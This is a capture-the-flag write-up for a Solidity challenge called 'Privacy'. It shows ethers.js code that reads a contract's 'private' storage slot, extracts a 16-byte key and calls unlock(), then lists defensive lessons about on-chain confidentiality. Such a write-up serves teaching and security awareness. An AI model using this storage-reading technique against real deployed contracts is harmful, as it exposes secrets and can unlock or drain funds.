 # Level 12: Privacy

## Challenge Overview

This challenge revolves around understanding Solidity’s storage layout and accessing private variables.  
The goal is to unlock the `Privacy` contract by retrieving a private variable and passing it to the `unlock` function.

## Goal

Extract the private `data` variable from the contract’s storage and use it to unlock the contract.

## Solution

The `data` array is stored sequentially in storage slots 3, 4, and 5.  
The `unlock` function compares its `bytes16 _key` parameter against the **first 16 bytes** of `data[2]` (slot 5).  
Although declared `private`, you can read any slot with `web3.eth.getStorageAt` or `provider.getStorageAt`.



## Steps

### 1. Read storage slot 5 (where `data[2]` lives)

```javascript
// ethers.js
const provider = new ethers.providers.Web3Provider(web3.currentProvider);
const raw = await provider.getStorageAt(contract.address, 5);
console.log("raw slot5:", raw);
```

### 2. Extract the key

```javascript
const key = raw.slice(0, 2 + 16 * 2);
console.log("unlock key:", key);
// → "0x0123456789abcdef0123456789abcdef"
```

### 3. Call `unlock(key)`

```javascript
// if `contract.unlock` is available:
await contract.unlock(key);
console.log("locked?", await contract.locked()); // → false
```

### 4. Verify & submit

```javascript
(await contract.locked()).toString(); // → "false"
```



## Lessons Learned

- All on-chain storage is publicly readable, `private` does not mean secret.
- Know how Solidity packs and locates your variables.
- Don’t put sensitive data on-chain without encryption.
- Use hashing or zero-knowledge proofs if you truly need confidentiality.
